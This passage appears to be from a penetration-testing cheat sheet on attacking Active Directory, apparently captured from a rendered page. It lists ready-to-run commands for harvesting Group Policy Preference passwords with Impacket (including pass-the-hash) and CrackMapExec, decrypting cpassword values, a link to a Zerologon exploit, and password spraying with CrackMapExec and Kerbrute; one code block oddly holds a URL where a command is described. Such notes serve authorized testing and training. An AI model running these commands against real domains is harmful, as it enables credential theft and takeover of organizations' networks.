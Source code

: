 - Impacket

```bash
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash (with an NT hash)
Get-GPPPassword.py -hashes :'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# parse a local file
Get-GPPPassword.py -xmlfile '/path/to/Policy.xml' 'LOCAL'
```

- SMB share - If SYSVOL share or any share which `domain` name as folder name

```bash
#Download the whole share
https://github.com/ahmetgurel/Pentest-Hints/blob/master/AD%20Hunting%20Passwords%20In%20SYSVOL.md
#Navigate to the downloaded folder
grep -inr "cpassword"
```

- Crackmapexec

```bash
crackmapexec smb <TARGET[s]> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password
crackmapexec smb <TARGET[s]> -u <USERNAME> -H LMHash:NTLMHash -d <DOMAIN> -M gpp_password
```

- Decrypting the CPassword

```bash
gpp-decrypt "cpassword"
```

## **Attacking Active Directory**

<aside>
💡 Make sure you obtain all the relevant credentials from compromised systems, we cannot survive if we don’t have proper creds.

</aside>

### Zerologon

- [Exploit](https://github.com/VoidSec/CVE-2020-1472)
- We can dump hashes on target even without any credentials.

### Password Spraying

```powershell
# Crackmapexec - check if the output shows 'Pwned!'
crackmapexec smb <IP or subnet> -u users.txt -p 'pass' -d <domain> --continue-on-success #use continue-on-success option if it's subnet

# Kerbrute
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
```
